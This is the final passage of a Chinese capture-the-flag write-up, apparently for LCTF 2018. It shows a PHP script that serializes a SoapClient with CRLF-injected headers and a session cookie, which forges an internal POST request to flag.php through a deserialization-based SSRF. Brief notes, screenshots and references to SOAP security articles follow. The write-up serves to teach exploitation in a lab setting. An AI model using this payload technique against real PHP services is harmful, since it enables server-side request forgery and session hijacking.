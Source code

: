 直接用脚本
```php
<?php
$target = "http://127.0.0.1/flag.php";
$post_string = 'data=abc';
$headers = array(
    'Cookie: PHPSESSID=fiuvgauodhtc5usq5of9t58q61'
);
$b = new SoapClient(null,array('location' => $target,'user_agent'=>'Diego^^Content-Type: application/x-www-form-urlencoded^^'.join('^^',$headers).'^^Content-Length: '. (string)strlen($post_string).'^^^^'.$post_string,'uri'=>'hello'));
$aaa = serialize($b);
$aaa = str_replace('^^',"\r\n",$aaa);
echo urlencode($aaa);
?>
```
![JyCTFf.png](https://s1.ax1x.com/2020/04/25/JyCTFf.png)
先利用session处理差异，提交构造好的序列

![JyC7Y8.png](https://s1.ax1x.com/2020/04/25/JyC7Y8.png)

这里再次使用call_user_func的目的是让
SoapClient->welcome_to_the_lctf2018()执行，这样才能发送
[![Jyis2D.png](https://s1.ax1x.com/2020/04/25/Jyis2D.png)](https://imgchr.com/i/Jyis2D)
[![JyPGnA.png](https://s1.ax1x.com/2020/04/25/JyPGnA.png)](https://imgchr.com/i/JyPGnA)

## 五、参考

[SOAP协议的深度解析](https://blog.csdn.net/sx1119183530/article/details/79942641)

[从几道CTF题看SOAP安全问题](https://www.anquanke.com/post/id/153065)

[PHP中soap用法示例](https://www.jb51.net/article/153394.htm)

[PHP SOAP使用](https://www.cnblogs.com/kvienchen/p/8310798.html)

[反序列化之PHP原生类的利用](https://www.cnblogs.com/iamstudy/articles/unserialize_in_php_inner_class.html#_label1_0)

[]()
[]()
[]()
